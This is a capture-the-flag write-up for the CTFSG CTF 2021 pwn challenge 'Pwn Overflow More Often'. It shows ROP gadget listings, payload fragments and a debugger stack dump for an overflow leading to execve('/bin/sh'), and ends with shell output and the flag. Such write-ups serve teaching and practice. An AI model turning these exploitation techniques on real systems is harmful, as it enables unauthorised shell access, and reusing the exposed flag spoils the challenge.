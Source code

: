 ```yaml
---
layout: writeup
ctf: CTFSG CTF 2021
chal: Pwn Overflow More Often
category: pwn
flag: CTFSG{g@dg3tRy_W1z@rdry_tO_pWn_g0l@nG}
points: 992
solves: 3
---
```


> Many-Many-More reasons for you to love POMO! Port over your number with us today to get a free gift of any gadget you want! Our telco backbone is powered by a super secure modern programming language which means you don't need to worry about being hacked! Your data is definitely safe with us!

Files given:
 - [pomo](pomo)

When we send in a long list of `"A"` as input, we see that the program segfaults and even gives us a traceback. This tells us we probably have to ROP the program.

Using ropper, one can dump all the gadgets to a file with `ropper --nocolor -f pomo > gadgets`. Gadgets: [gadgets](gadgets)

To call `execve("/bin/sh")`, we need
 - `rdi` points to `/bin/sh\x00` string
 - `rax = 0x3b` 
 - `rdx = 0` 
 - `rsi = 0` 

Furthermore, if we inspect the stack hard enough, we see that we only have 12 4-byte chunks that we can overwrite, meaning that we need to be extremely efficient with this rop chain.

## Finding gadgets

To get values into registers, `pop` is the easiest way to do so (`mov,`xor`,etc. may be more efficient but I couldn't find the appropriate gadgets). We easily find most of the pop instructions we need with a simple grep:

```sh
> cat gadgets | grep ': pop ...; ret;'
0x0000000000403c0d: pop rax; ret;
0x00000000004648ad: pop rbp; ret;
0x0000000000407fa1: pop rbx; ret;
0x00000000004188e2: pop rdx; ret;
0x00000000004387be: pop rsi; ret;
0x000000000041792b: pop rsp; ret;
```

however we are missing `pop rdi`. Unfortunately there is not convenient gadgets for `pop rdi`, and we have to use one of the following:
```sh
> cat gadgets | grep ': pop rdi; '
0x000000000041003d: pop rdi; dec dword ptr [rax + 0x21]; ret;
0x0000000000457ca4: pop rdi; sete byte ptr [rsp + 0x10]; ret;
```

The first would be hard to use as we need `rax` to point to a writable location, which takes at least 2 more 4-byte chunks.

In this case, we can use the second option as `sete` would set `byte ptr [rsp + 0x10]` to `0`, so if we can properly align our payload, this could be equivalent to a `nop`.

Next we need a gadget to write `/bin/sh\x00` as a string somewhere. It turns out that one such gadget exists!

```sh
> cat gadgets | grep ': mov qword ptr \[...\], ...; ret;'
0x0000000000463f6f: mov qword ptr [rdi], rax; ret;
```

and finally we need a syscall gadget:

```sh
> cat gadgets | grep ': syscall; ret;'
0x00000000004648e9: syscall; ret;
```

This leaves us with the following gadgets:

```py
mov_write = p64(0x0000000000463f6f) # mov qword ptr [rdi], rax; ret;
pop_rdi = p64(0x0000000000457ca4) # pop rdi; sete byte ptr [rsp + 0x10]; ret;
pop_rax = p64(0x0000000000403c0d) # pop rax; ret;
pop_rbp = p64(0x00000000004648ad) # pop rbp; ret;
pop_rbx = p64(0x0000000000407fa1) # pop rbx; ret;
pop_rdx = p64(0x00000000004188e2) # pop rdx; ret;
pop_rsi = p64(0x00000000004387be) # pop rsi; ret;
pop_rsp = p64(0x000000000041792b) # pop rsp; ret;
syscall = p64(0x00000000004648e9) # syscall; ret;
```

## Crafting rop chain

First we need to get `rdi` to point to a `/bin/sh\x00` string. We can easily find some writable memory, for example at `0x556a20` and use that to place our string:

```py
payload += pop_rax
payload += '/bin/sh\x00'
payload += pop_rdi
payload += bss
payload += mov_write
```

We need to be careful here as `pop_rdi` will zero out the 16th byte after it, hence here is a good place to pop a 0 into one of the registers. With this, we pop the values then call syscall in the follwing order:

```py
payload += pop_rdx
payload += p64(0)
payload += pop_rax
payload += p64(0x3b)
payload += pop_rsi
payload += p64(0)
payload += syscall
```

However when we run the script, we still get a segfault. Breaking right before the ROP chain, we see that somehow part of our padding got copied over into our rop chain:

```sh
0xc00005af10:	0x00403c0d	0x00000000	0x6e69622f	0x0068732f
0xc00005af20:	0x00457ca4	0x00000000	0x61616167	0x61616168
0xc00005af30:	0x61616169	0x6161616a	0x6161616b	0x6161616c
0xc00005af40:	0x00000000	0x00000000	0x00403c0d	0x00000000
0xc00005af50:	0x0000003b	0x00000000	0x004387be	0x00000000
0xc00005af60:	0x00000000	0x00000000	0x004648e9	0x00000000
```

This can easily be patched by replacing that part of our padding with the proper values, then we get a working exploit:

```sh
[*] Switching to interactive mode
Welcome to the Pwn Overflow More Often (POMO) telecom service.
Please enter your desired mobile no.: $
$ id
uid=1000(pomo) gid=1000(pomo) groups=1000(pomo)
$ cat /home/pomo/flag.txt
CTFSG{g@dg3tRy_W1z@rdry_tO_pWn_g0l@nG}
```

The solution script can be found at [solve.py](solve.py)
